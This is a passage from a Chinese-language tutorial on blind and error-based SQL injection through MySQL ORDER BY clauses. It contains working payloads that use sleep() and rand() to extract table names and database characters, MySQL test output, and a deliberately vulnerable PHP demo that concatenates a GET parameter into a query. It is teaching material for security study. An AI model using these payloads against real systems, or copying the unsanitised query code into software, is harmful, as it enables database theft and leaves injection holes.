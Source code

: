 同样的，我们可以在上面的payload中替换我们想要的语句
比如：

```
order by if((select ascii(substr(table_name,1,1)) from information_schema.tables limit 1)<=128,1,sleep(1))
```

##### 基于rang()的盲注

原理不赘述了，直接看测试结果

```
mysql> select * from ha order by rand(true);
+----+------+
| id | name |
+----+------+
|  9 | NULL |
|  6 | NULL |
|  5 | NULL |
|  1 | dss  |
|  0 | dasd |
+----+------+
mysql> select * from ha order by rand(false);
+----+------+
| id | name |
+----+------+
|  1 | dss  |
|  6 | NULL |
|  0 | dasd |
|  5 | NULL |
|  9 | NULL |
+----+------+
```

可以看到当rang()为true和false时，排序结果是不同的，所以就可以使用rang()函数进行盲注了。 例

```
order by rand(ascii(mid((select database()),1,1))>96)
```

##### order by后的报错注入

这个有点特殊，因为他仅仅是一种特别的情况，不如上面的通用，所以我放在最后来说。

源码：

```
<?php
error_reporting(0);
session_start();
mysql_connect("127.0.0.1", "root", "root") or die("Database connection failed ");
mysql_select_db("sqlidemo") or die("Select database failed");

$order = $_GET['order'] ? $_GET['order'] : 'name';
$sql = "select id,name,price from goods order by $order";
$result = mysql_query($sql);
$reslist = array();
while($row = mysql_fetch_array($result, MYSQL_ASSOC))
{
 array_push($reslist, $row);
}
echo json_encode($reslist);
create database sqlidemo;
```
